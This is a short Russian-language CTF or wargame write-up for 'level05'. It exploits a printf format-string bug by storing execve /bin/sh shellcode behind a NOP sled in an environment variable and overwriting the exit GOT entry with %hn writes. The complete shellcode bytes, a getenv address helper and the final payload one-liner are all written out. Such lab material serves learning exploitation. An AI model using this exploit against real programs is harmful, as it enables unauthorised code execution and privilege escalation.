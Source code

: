 Мы можем использовать атаку на незащищенное использование `printf`. Для этого мы можем сохранить shellcode в переменную окружения и получить его в `prinf`, это позволит обойти ограничение в 100 символов из `fgets`. Кроме того, через нам немобходимо перезаписать указатель на функцию `exit()` таким образом, чтобы он возвращал адрес shellcode.


`(gdb) disas exit
...
0x08048513 <+207>:	call   0x8048370 <exit@plt>
(gdb) x/i 0x8048370
0x8048370 <exit@plt>:	jmp    *0x80497e0`

Надо перезаписать` 0x80497e0`

Перед shellcode добавляем NOP sled (50 bytes)

`export SHLCODE=$'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68'`

Создадим файл /tmp/getenv.c, чтобы получить адрес `SHLCODE`

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
    printf("%p\n", getenv("SHLCODE"));
}
```

```sh
$ /tmp/getenv
0xffffdead
$ (cd /tmp; ./getenv)
0xffffdeb3
```

Итоговая команда:
```(python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%57013x" + "%10$hn" + "%8514x" + "%11$hn"'; cat) | ./level05
```
